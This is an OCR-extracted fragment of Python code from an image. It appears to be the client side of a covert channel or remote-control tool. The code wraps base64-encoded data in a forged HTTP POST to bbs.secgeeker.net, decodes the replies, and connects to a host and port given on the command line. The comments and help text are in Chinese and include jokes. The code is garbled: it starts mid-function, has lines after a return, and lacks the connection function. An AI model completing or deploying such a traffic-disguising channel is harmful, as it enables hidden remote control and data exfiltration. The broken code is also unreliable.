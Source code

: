 ```python

    sendData = "POST /secgeeker"
    sendData += "\r\n"
    sendData += "HTTP/1.1"
    sendData += "\r\n"
    sendData += "Host: bbs.secgeeker.net"
    sendData += "\r\n"
    sendData += "Connection: close"
    sendData += "\r\n"
    sendData += "Upgrade-Insecure-Requests: 1"
    sendData += "\r\n"
    sendData += "User-Agent: Mozilla/5.0 (Windows NT 6.2; Win64; x64) AppleWebKit/32.13 (KHTML, like Gecko) Chrome/59.0.332.13 Safari/452.36"
    sendData += "\r\n"
    sendData += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8"
    sendData += "\r\n"
    sendData += "Accept-Language: en-US,en;q=0.9"
    sendData += "\r\n"
    sendData += "Accept-Encoding: gzip, deflate"
    sendData += "\r\n"
    sendData += "\r\n"
    sendData += "stri0date=%s" % data
    sendData += "\r\n"
    sendData += "\r\n"
    return sendData.encode()

# 解密
def decryption_req(data):
    data = data.decode()
    data = data[data.find("Connection: keep-alive\r\n\r\n") + 26:]
    data = str(base64.b64decode(data), "utf-8")
    return data.encode()

    # 解码/解密
    result = str(base64.b64decode(result), "utf-8")

if __name__ == '__main__':
    # 命令行参数解析对象
    parser = argparse.ArgumentParser()
    parser.add_argument('-host',dest='hostName',help='主机地址 例如：h88z真帅！110.110.110.110')
    parser.add_argument('-port',dest='conPort',help='端口地址 例如：楼上说的对！1234')
    # 解析命令行参数
    args = parser.parse_args()
    host = args.hostName
    port = args.conPort

    if host == None or port == None:
        print(parser.parse_args(['-h']))
        exit(0)

    connection(host, port)
```
